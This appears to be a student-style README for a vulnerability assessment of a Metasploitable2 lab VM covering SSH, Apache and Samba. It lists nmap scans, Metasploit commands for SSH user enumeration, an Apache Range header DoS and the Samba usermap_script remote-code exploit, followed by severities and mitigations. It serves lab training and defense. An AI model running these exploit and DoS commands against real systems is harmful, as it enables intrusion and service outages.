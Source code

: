 # Vulnerability Assessment — Metasploitable2 (SSH, HTTP, SMB)

**Project**: Vulnerability Assessment of a Test Network — Metasploitable2
---

## Overview

The assessment focused on three representative services:

* **SSH (port 22)** — OpenSSH user enumeration / weak authentication (e.g., OpenSSH 4.7p1 issues).
* **HTTP (port 80)** — Apache Range header DoS (CVE-2011-3192).
* **SMB (port 445)** — Samba usermap script command execution (CVE-2007-2447).

The goal: discover, (controlled) exploit, document evidence, recommend mitigations, and run an incident-response simulation — all within an isolated virtual lab.

---

---

## Prerequisites (lab)

* Host: Kali Linux (attacker).
* Target: Metasploitable2 .
* Optional: Wireshark for PCAP capture, Nessus/OpenVAS for vulnerability scanning, Metasploit Framework.

---

## Quick-start: Commands used 

> Discover host and services

```bash
nmap -sn 192.168.56.0/24
nmap -sV -p 22,80,445 192.168.56.101 -oN nmap_services.txt
```

> SSH enumeration (Metasploit aux)

```text
msfconsole
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 192.168.56.101
run
```

> Apache Range header DoS (proof-of-concept)

```text
use auxiliary/dos/http/apache_range_dos
set RHOSTS 192.168.56.101
exploit
```

> Samba usermap script exploit

```text
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
exploit
```

---

## Findings & Severity

* **SMB (Samba usermap script)** — Critical / High (remote code execution possible).
* **HTTP (Apache Range DoS)** — High (service disruption).
* **SSH (OpenSSH user enumeration / weak auth)** — Medium (information disclosure & brute-force risk).

---

## Mitigations & Recommendations (summary)

* Patch/upgrade OpenSSH, Apache, and Samba to patched versions.
* Use **key-based authentication** and rate-limiting / fail2ban for SSH.
* Enable WAF / mod_security and limit header parsing for Apache.
* Restrict SMB exposure via firewall rules, disable unused shares, and apply least privilege.
* Maintain regular vulnerability scans and keep host snapshots/backups.
